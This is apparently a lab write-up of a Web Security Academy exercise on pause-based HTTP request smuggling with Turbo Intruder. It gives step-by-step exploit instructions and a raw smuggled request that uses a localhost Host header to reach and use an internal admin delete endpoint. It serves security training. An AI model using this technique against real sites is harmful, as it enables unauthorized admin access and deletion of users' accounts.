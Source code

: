 **Exploit**:
1. In Turbo Intruder, go back to the attack configuration screen. In your smuggled request, change the `Host` header to `localhost` and relaunch the attack.
2. After 61 seconds, notice that you have now successfully accessed the admin panel.
3. Study the response and observe that the admin panel contains an HTML form for deleting a given user. Make a note of the following details:
   - The action attribute(`/admin/delete`).
   - The name of the input(`username`).
   - The `csrf` token.
   - The `cookie` of the user.
4. Go back to the attack configuration screen. Use these details to replicate the request that would be issued when submitting the form. The result should look something like this:
   ```sh
   POST /resources HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Cookie: session=YOUR-SESSION-COOKIE
   Connection: keep-alive
   Content-Type: application/x-www-form-urlencoded
   Content-Length: CORRECT

   POST /admin/delete/ HTTP/1.1
   Host: localhost
   Cookie: session=YOUR-COOKIE
   Content-Length: 53

   csrf=YOUR-CSRF-TOKEN&username=carlos
   ```
5. To prevent Turbo Intruder from pausing after both occurrences of \r\n\r\n in the request, update the pauseMarker argument so that it only matches the end of the first set of headers, for example:
   ```sh
   pauseMarker=['\r\n\r\nPOST']
   ```
6. Launch the attack. After 61 seconds, the lab is solved.

## 📖 Key Takeaways
- Attack relies on timing (pause after headers) and connection reuse (keep-alive).
- **Turbo Intruder** is required to control the precise pause (`pauseMarker` + `pauseTime`).
- Changing `Host` to `localhost` lets you reach internal admin endpoints via the back-end.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/eb555569-b7b8-4117-b2d1-82ca0828c182" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/afd583a1-9ca3-4a5d-ba88-ced297d44feb" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/5244c72c-e779-4149-9c24-a3d651f48e77" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/0c6814a1-9b56-4650-ad93-149e918f49b9" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/ef4e2bcd-696a-4e45-a5df-0e6c8ed7677d" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/1866c626-9532-409c-b45c-5314c621c230" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/b3421239-4a26-4bea-aca2-38f5dc3e680b" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/76491700-508d-47f7-9d80-104dfc764fa4" />
